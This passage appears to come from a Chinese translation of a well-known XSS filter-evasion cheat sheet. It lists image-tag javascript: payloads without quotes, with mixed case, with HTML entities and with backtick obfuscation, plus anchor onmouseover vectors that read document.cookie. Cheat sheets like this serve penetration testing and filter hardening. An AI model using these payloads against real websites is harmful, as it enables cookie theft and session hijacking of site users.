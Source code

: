 <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>




### 2.5.  通过JavaScript命令实现的图片XSS

图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：


<IMG SRC=”javascript:alert(‘XSS’);”>


### 2.6.  无分号无引号


<IMG SRC=javascript:alert(‘XSS’)>




### 2.7.  不区分大小写的XSS攻击向量


<IMG SRC=JaVaScRiPt:alert(‘XSS’)>




### 2.8.  HTML实体

必须有分号才可生效


<IMG SRC=javascript:alert(&quot;XSS&quot;)>




### 2.9.  重音符混淆

如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：


<IMG SRC=`javascript:alert(“RSnake says, ‘XSS’”)`>




### 2.10.    畸形的A标签

跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证



<a onmouseover=”alert(document.cookie)”>xxs link</a>


此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。

<a onmouseover=alert(document.cookie)>xxs link</a>


